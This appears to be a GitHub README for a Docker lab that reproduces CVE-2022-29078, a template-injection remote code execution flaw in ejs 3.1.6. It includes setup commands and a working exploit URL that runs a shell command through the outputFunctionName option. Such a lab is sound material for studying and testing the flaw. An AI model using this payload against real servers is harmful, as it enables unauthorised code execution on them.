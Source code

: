 # CVE-2022-29078
vuln ejs 3.1.6 docker

## Setup
```
git clone https://github.com/miko550/CVE-2022-29078.git  
cd CVE-2022-29078
docker build . -t miko/vuln-ejs
docker run -p 49160:8080 -d --name vuln-ejs miko/vuln-ejs
```
## Usage
```
http://127.0.0.1:49160/
```
## Exploit
### In browser
```
http://127.0.0.1:49160/page?id=2&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s
```
### Verify exploit
```
docker exec -it vuln-ejs /bin/bash
ls -la /tmp
```

# Reference
https://eslam.io/posts/ejs-server-side-template-injection-rce/
https://github.com/Olusamimaths/templating-with-ejs
